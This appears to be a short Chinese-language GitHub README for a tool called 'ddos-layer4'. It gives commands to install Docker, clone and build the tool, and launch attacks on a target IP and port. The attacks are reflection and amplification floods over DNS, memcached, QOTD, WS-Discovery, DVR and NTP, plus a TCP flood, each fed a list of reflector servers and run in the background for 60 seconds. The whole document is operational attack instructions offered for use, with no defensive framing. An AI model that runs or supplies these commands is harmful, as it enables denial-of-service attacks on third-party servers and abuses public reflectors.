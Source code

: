 ### Ubuntu Docker 安装

	curl -fsSL https://test.docker.com -o test-docker.sh && sudo sh test-docker.sh

### ddos-layer4安装

	apt install git -y && git clone https://github.com/qq1521575701/ddos-layer4.git && cd ddos-layer4 && docker build -t ddos-layer4 . && docker run -itd --name ddos-layer4 --network host ddos-layer4:latest && rm -rf ~/ddos-layer4


### ddos-layer4容器

	docker exec -it ddos-layer4 /bin/bash

### ddos-layer4使用

	docker exec -it ddos-layer4 ./dns ip port dns.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./meme ip port meme.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./qotd ip port qotd.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./wsd ip port wsd.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./dvr ip port dvr.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./ntp ip port ntp.txt 1 -1 60 &

	docker exec -it ddos-layer4 ./tcp ip port 1 -1 60 &
